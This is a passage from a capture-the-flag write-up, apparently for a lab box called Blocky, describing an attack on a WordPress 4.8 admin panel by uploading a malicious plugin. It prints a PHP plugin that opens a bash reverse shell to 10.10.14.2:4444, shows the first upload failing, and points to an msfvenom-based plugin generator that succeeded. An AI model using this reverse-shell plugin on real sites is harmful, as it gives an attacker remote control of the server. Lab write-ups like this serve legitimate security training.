 So we have WordPress Version 4.8. First I will try to import a malicious plugin to grab the reverse shell.

###### `Creating WordPress Reverse Shell Plugin`
```
# cat WP_Reverse_Shell.php 
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'");
?>
```

```
# zip WP_Reverse_Shell_Plugin.zip WP_Reverse_Shell.php 
  adding: WP_Reverse_Shell.php (deflated 9%)
```

Uploading the Plugin and Starting the NetCat Reverse Shell
![](Blocky_Web8.png)

```
Installing Plugin from uploaded file: WP_Reverse_Shell_Plugin.zip

Unpacking the package…

Installing the plugin…

The package could not be installed. No valid plugins were found.

Plugin install failed.

Return to Plugin Installer

```

Ouch!! The Plugin Installation Failed. I found the GitHub Repo which uses `msfvenom` which got me the shell as `www-data`. 
###### `Maliicous WordPress Plugin using msfvenom`
This [GitHub Repo](https://github.com/wetw0rk/malicious-wordpress-plugin) will prepare `malicious.zip` which you will uplaod again the same way and this time it will upload successfully.
